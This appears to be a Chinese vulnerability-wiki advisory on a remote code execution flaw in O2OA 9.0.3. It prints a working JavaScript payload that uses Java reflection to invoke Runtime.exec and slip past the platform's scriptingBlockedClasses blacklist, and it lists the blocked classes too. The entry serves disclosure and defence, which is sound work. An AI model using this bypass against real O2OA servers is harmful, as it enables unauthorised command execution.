






# O2OA 脚本类黑名单反射绕过导致远程代码执行

## 条目说明

- 对象与具体问题：O2OA；脚本类黑名单反射绕过导致RCE
- 版本、配置及部署条件：9.0.3；Java脚本反射可用
- 认证与权限前提：xadmin/服务平台代理编辑运行权限
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 正文完整解释反射绕过和创建运行代理流程；需明确管理员脚本执行与安全边界
- 提供issues158/159和发布日志；修复版本仅写最新版

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

O2OA（翱途）低代码开发平台是一个开源企业协同办公定制平台，提供完整的前后端 API 和模块定制能力。

O2OA 9.0.3 版本存在远程代码执行漏洞，平台使用 `scriptingBlockedClasses` 属性值列表作为黑名单过滤器，攻击者可以通过 Java 反射绕过黑名单限制。

参考链接：

- https://github.com/o2oa/o2oa/issues/158
- https://github.com/o2oa/o2oa/issues/159
- https://www.o2oa.net/log/log.html

### 披露时间

2024-06-04

### 漏洞影响

```
O2OA 9.0.3
```

### 环境搭建

在 [官网下载](https://www.o2oa.net/download.html) 一个 9.0.3 版本，本地搭建测试：

```
unzip o2server-9.0.3-linux-x64.zip 
cd o2server
./start_linux.sh
```

按照提示进行安装，选择内置 `h2` 数据库：




### 漏洞复现

以 `xadmin` 身份登录平台，点击 `Service Platform` 进入服务平台：




点击 `Create Agent` 创建一个代理：




填写 `Name`、`Alias` 和 `Time task cron expression` 等必填项，写入 [payload](https://github.com/o2oa/o2oa/issues/158) ：

```
var a = mainOutput(); 
function mainOutput() {
    var clazz = Java.type("java.lang.Class");
    var rt = clazz.forName("java.lang.Runtime");
    var stringClazz = Java.type("java.lang.String");

    var getRuntimeMethod = rt.getMethod("getRuntime");
    var execMethod = rt.getMethod("exec",stringClazz);
    var runtimeObject = getRuntimeMethod.invoke(rt);
    execMethod.invoke(runtimeObject,"touch /tmp/awesome_poc");
};
```

点击保存。关闭当前窗口，重新进入点击 `Run` 执行：




命令成功执行：




漏洞产生的原因是 9.0.3 版本 `o2server/configSample/general.json` 文件中对类做了黑名单限制，但是攻击者可以通过 Java 反射绕过黑名单中的类：

```
"scriptingBlockedClasses": [
	"java.util.zip.ZipOutputStream",
	"java.io.RandomAccessFile",
	"java.net.Socket",
	"java.util.zip.ZipInputStream",
	"java.nio.file.Files",
	"java.lang.System",
	"java.net.URL",
	"java.lang.Runtime",
	"java.io.FileWriter",
	"java.io.FileOutputStream",
	"javax.script.ScriptEngineManager",
	"java.io.File",
	"java.net.ServerSocket",
	"java.nio.file.Paths",
	"javax.script.ScriptEngine",
	"java.util.zip.ZipFile",
	"java.lang.ProcessBuilder",
	"java.net.URI",
	"java.nio.file.Path"
],
```




### 漏洞修复

建议升级 O2OA 最新版本： https://www.o2oa.net/download.html


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
